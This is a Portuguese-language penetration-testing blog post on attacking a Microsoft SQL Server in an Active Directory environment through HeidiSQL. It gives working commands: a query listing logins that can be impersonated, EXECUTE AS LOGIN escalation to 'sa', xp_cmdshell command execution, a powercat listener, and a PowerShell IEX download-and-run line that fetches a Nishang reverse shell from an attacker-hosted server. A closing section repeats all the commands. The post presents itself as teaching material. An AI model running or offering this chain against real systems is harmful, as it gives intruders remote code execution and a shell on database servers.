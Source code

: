 ```yaml
---
title: "Active Directory - HeidiSQL"
tags: [Windows, Active Directory]
categories: "ActiveDirectory"
---
```


![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidisql.png)

# Considerações Iniciais

Agora, vamos fazer o SQL de maneira diferente, através do acesso que temos nele, utilizando o HeidiSQL

Link para download do HeidiSQL

[HeidiSQL](https://www.heidisql.com/download.php)

E claro, obviamente, esconderei todas as menções para qual ambiente estou realizando a enumeração, aqui é apenas para fins didáticos!

# Conectando na Database

Uma vez que verificamos que temos uma database acessível lá no PowerUpSQL agora é hora de verificarmos se temos acesso a ela

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi.png)

Conseguimos conexão!

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi1.png)

# Explorando o servidor

Uma vez conectados agora é hora de iniciar a exploração desse servidor

## User Impersonation

Uma vez logados no HeidiSQL, devemos procurar por usuários que temos poder de impersonificar, no caso rodar como se fosse 'runas', os comandos para verificar isso são:

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi2.png)

Fontes:

[Link 1](https://blog.netspi.com/hacking-sql-server-stored-procedures-part-2-user-impersonation/)

[Link 2](https://cheats.philkeeble.com/active-directory/mssql)

Verificamos que podemos impersonificar dois usuários, o `sa` e o `dbuser`

Então vamos lá!

## Remote Code Execution

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi3.png)

Temos RCE!

Agora é só pegar um reverse shell ali!

Iremos utilizar o `Invoke-PowerShellTCP.ps1` do Nishang

[PowerShellTCP](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1)

O `HFS` para hospedar nosso servidor web onde o servidor remoto irá fazer as requisições

[HFS](https://www.rejetto.com/hfs/)

E o `powercat` para receber a conexão reversa

[PowerCat](https://github.com/besimorhino/powercat/blob/master/powercat.ps1)

Setamos o powercat na porta 443 para receber a conexão reversa

`powercat -l -v -p 443 -t 1000`

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev.png)

Arrumamos (colocamos a chamada da função no final dela pra automaticamente executar o reverse shell) e upamos o Invoke-PowerShellTCP.ps1 no HFS

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/rev1.png)

Executamos a chamada no HeidiSQL e recebemos a reverse shell!

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```

![](https://raw.githubusercontent.com/0x4rt3mis/0x4rt3mis.github.io/master/img/active-enum/heidi4.png)

Show!

# Conclusão

Então agora terminamos de explorar o MSSQLServer por outro modo, através do HEIDISql.

## Comandos Utilizados

```
SELECT DISTINCT b.name
FROM sys.server_permissions a
INNER JOIN sys.server_principals b
ON a.grantor_principal_id = b.principal_id
WHERE a.permission_name = 'IMPERSONATE'
```

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'whoami'
```

`powercat -l -v -p 443 -t 1000`

```
EXECUTE AS LOGIN = 'dbuser'
EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'powershell.exe IEX((New-Object Net.WebClient).DownloadString(''http://192.168.50.196/Invoke-PowerShellTCP.ps1''))'
```